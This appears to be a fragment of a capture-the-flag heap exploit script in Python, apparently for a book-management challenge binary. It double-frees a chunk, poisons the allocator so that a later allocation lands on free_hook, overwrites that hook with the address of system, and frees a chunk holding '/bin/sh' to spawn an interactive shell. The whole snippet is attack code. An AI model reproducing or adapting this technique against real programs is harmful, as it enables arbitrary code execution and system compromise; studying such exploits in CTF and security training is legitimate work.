 ```python
#io.recv()
#addbook('5',0x60,'aa')

delbook(5)
delbook(5)

addbook('a',0x80,p64(freehook)) #6
addbook('a',0x80,'/bin/sh\x00') #7
addbook('a',0x80,p64(sysaddr))
delbook(7)
io.interactive()
```


